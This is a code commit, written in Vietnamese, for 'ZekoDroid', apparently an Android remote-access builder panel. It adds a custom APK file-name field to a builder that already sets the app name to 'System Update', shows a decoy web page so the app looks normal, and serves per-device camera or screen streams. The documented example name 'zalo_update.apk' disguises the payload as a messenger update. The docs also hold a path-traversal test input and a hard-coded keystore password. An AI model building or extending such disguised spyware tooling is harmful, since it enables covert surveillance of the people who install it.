

feat: dat ten file APK trong Builder (sanitize, tu them .apk)

Changed region(s): [[0.0312, 0.3624, 0.718, 0.6341], [0.1873, 0.302, 0.5619, 0.3322], [0.0312, 0.3926, 0.1249, 0.4228]]

diff --git a/server/wwwroot/index.html b/server/wwwroot/index.html
@@ -116,6 +116,7 @@
       <b>tên app</b><input id="bName" value="System Update" placeholder="System Update" />
       <b>home page</b><input id="bHome" placeholder="https://google.com (để trống = mở màn hình cài đặt)" />
       <b>psk</b><input id="bPsk" placeholder="(để trống nếu không mã hoá)" />
+      <b>tên file apk</b><input id="bFile" placeholder="để trống = ZekoDroid-<ip>.apk" />
       <b>icon</b><input id="bIcon" type="file" accept="image/png" />
     </div>
     <div class="sp"></div>
@@ -605,6 +606,7 @@ render = function () {
     const name = document.querySelector('#bName').value.trim();
     const home = document.querySelector('#bHome').value.trim();
     const psk = document.querySelector('#bPsk').value.trim();
+    const fileName = document.querySelector('#bFile').value.trim();
     const out = document.querySelector('#bOut');
     if (!srvUrl) { out.textContent = 'nhập server url đã (vd http://1.2.3.4:7878)'; return; }
     const hostForName = (srvUrl.match(/\/\/([^:/]+)/) || [, srvUrl])[1];
@@ -625,7 +627,7 @@ render = function () {
       const r = await fetch('/api/builder/build', {
         method: 'POST', credentials: 'same-origin',
         headers: { 'Content-Type': 'application/json' },
-        body: JSON.stringify({ url: srvUrl, name, home, psk, icon })
+        body: JSON.stringify({ url: srvUrl, name, home, psk, icon, filename: fileName })
       });
       if (!r.ok) {
         const j = await r.json().catch(() => ({}));
@@ -636,10 +638,12 @@ render = function () {
       const url = URL.createObjectURL(blob);
       const a = document.createElement('a');
       a.href = url;
-      a.download = `ZekoDroid-${hostForName.replace(/[.:]/g, '_')}.apk`;
+      const dlName = fileName ? (fileName.toLowerCase().endsWith('.apk') ? fileName : fileName + '.apk')
+        : `ZekoDroid-${hostForName.replace(/[.:]/g, '_')}.apk`;
+      a.download = dlName;
       a.click();
       URL.revokeObjectURL(url);
-      out.textContent = `OK · ${(blob.size / 1024).toFixed(1)} KB · ${Date.now() - t0} ms` + "\n" + `url=${srvUrl}  name=${name || "(mặc định)"}  home=${home || "(không)"}  psk=${psk ? "có" : "không"}`;
+      out.textContent = `OK · ${(blob.size / 1024).toFixed(1)} KB · ${Date.now() - t0} ms` + "\n" + `file=${dlName}  name=${name || "(mặc định)"}  home=${home || "(không)"}  psk=${psk ? "có" : "không"}`;
     } catch (e) {
       out.textContent = 'lỗi: ' + e.message;
     }

diff --git a/server/Program.cs b/server/Program.cs
@@ -253,7 +253,23 @@ app.MapGet("/api/agents/{hwid}/{kind}.mjpg", async (string hwid, string kind, Ht
     catch (Exception ex) { Log.Warn("mjpeg: " + ex.Message); }
 });
 
-// ───────────── APK builder (thay assets/zk.conf + ký v2, không cần JDK) ─────────────
+// ─── APK builder: dat ten file APK ───
+static string SafeApkName(string? raw, string fallbackHost)
+{
+    var s = (raw ?? "").Trim();
+    if (s.Length == 0) return $"ZekoDroid-{fallbackHost.Replace('.', '_')}.apk";
+    var sb = new System.Text.StringBuilder();
+    foreach (var ch in s)
+    {
+        if (char.IsLetterOrDigit(ch) || ch == '-' || ch == '_' || ch == '.') sb.Append(ch);
+        else sb.Append('_');
+    }
+    var name = sb.ToString().Trim('.', '_');
+    if (name.Length == 0) name = "ZekoDroid";
+    if (name.Length > 64) name = name[..64];
+    if (!name.EndsWith(".apk", StringComparison.OrdinalIgnoreCase)) name += ".apk";
+    return name;
+}
 ApkBuilder.BaseApkPath = Environment.GetEnvironmentVariable("ZK_BASE_APK")
     ?? Path.Combine(AppContext.BaseDirectory, "builder", "zk_base.apk");
 if (!File.Exists(ApkBuilder.BaseApkPath))
@@ -280,6 +296,7 @@ app.MapPost("/api/builder/build", async (HttpContext ctx) =>
     var psk = body?["psk"]?.ToString() ?? "";
     var appName = body?["name"]?.ToString();
     var homeUrl = body?["home"]?.ToString();
+    var fileName = body?["filename"]?.ToString();
 
     // cho phép gửi "url" đầy đủ (http://1.2.3.4:7878) thay vì host+port
     var urlRaw = body?["url"]?.ToString();
@@ -305,7 +322,7 @@ app.MapPost("/api/builder/build", async (HttpContext ctx) =>
     var res = ApkBuilder.Build(host.Trim(), port, psk, icon, appName, homeUrl);
     if (res.Apk is null) return Results.Json(new { error = res.Error }, statusCode: 400);
     Log.Ok($"builder: {host}:{port} name={appName ?? "-"} home={(string.IsNullOrWhiteSpace(homeUrl) ? "-" : homeUrl)} -> {res.Apk.Length / 1024} KB ({sw.ElapsedMilliseconds} ms)");
-    var name = $"ZekoDroid-{host.Replace('.', '_')}.apk";
+    var name = SafeApkName(fileName, host);
     return Results.File(res.Apk, "application/vnd.android.package-archive", name);
 });
 // ───────────── quản trị: users / sessions / logs ─────────────

diff --git a/docs/BUILDER.md b/docs/BUILDER.md
@@ -36,6 +36,7 @@ Không cần JDK, apksigner, zipalign hay Android SDK trên VPS.
 | **tên app** | tên hiện trên launcher — patch thẳng string pool trong `resources.arsc` |
 | **home page** | URL app mở khi khởi động (WebView) để trông như app thường; để trống = mở màn hình cài đặt |
 | **psk** | khoá mã hoá (dán từ `/etc/zekodroid.env`) |
+| **tên file apk** | tên file tải về, vd `zalo_update` → `zalo_update.apk`; để trống = `ZekoDroid-<ip>.apk` |
 | **icon** | PNG thay icon |
 
 ### Đổi tên app thế nào (arsc patch)
@@ -52,7 +53,7 @@ Kiểm chứng: `aapt2 dump badging` → `application-label:'Cloud Sync'`, `apks
 
 ```
 GET  /api/builder/info                 → {ready, basePath}
-POST /api/builder/build  {url | host+port, name?, home?, psk?, icon?}
+POST /api/builder/build  {url | host+port, name?, home?, psk?, icon?, filename?}
      → APK (application/vnd.android.package-archive)
 ```
 
@@ -86,3 +87,15 @@ assets/zk.conf trong APK tải về:
 - Icon thì đổi được (thay `res/drawable/ic_launcher.png`).
 - APK chỉ ký v2 → máy Android < 7 không cài được.
 - Keystore nằm ở `server/builder/zeko.pfx` (pass `zeko123`) — giữ file này để update đè lên bản cũ.
+## Đặt tên file APK
+
+Ô **tên file apk** trong Builder (hoặc field `filename` khi gọi API):
+
+| Nhập | File tải về |
+|---|---|
+| (để trống) | `ZekoDroid-1_2_3_4.apk` |
+| `Cloud Sync v2.apk` | `Cloud_Sync_v2.apk` |
+| `zalo_update` | `zalo_update.apk` (tự thêm đuôi) |
+| `../etc/pa ss/evil` | `etc_pa_ss_evil.apk` (bị sanitize, không traversal) |
+
+Chỉ giữ `[A-Za-z0-9._-]`, ký tự khác đổi thành `_`, cắt 64 ký tự, luôn kết thúc bằng `.apk`.
